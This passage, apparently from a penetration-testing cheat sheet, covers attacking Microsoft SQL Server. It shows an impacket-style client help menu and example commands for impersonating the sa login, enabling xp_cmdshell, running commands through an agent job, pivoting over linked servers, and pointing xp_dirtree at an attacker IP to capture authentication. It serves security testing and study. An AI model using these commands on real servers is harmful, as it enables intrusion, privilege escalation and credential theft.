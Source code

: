 {% hint style="info" %}
Or automate the process above with this [script](https://github.com/NetSPI/Powershell-Modules/blob/master/Get-MSSQLLinkPasswords.psm1) from NetSPI.
{% endhint %}

## MSSQL Commands

```sql
SQL (ws_dev  guest@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonated
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    show_query                 - show query
    mask_query                 - mask query
```

More

```sql
# Enum impersonate
enum_impersonate

# Execute as
exec_as_login sa

# Dirtree
xp_dirtree \\10.10.14.104\a

# Enable xp_cmdshell
enable_xp_cmdshell

# Start a job
sp_start_job cmd.exe /c "whoami > C:\Windows\Tasks\tmp.txt"

# Use linked server
use_link SQL02
```

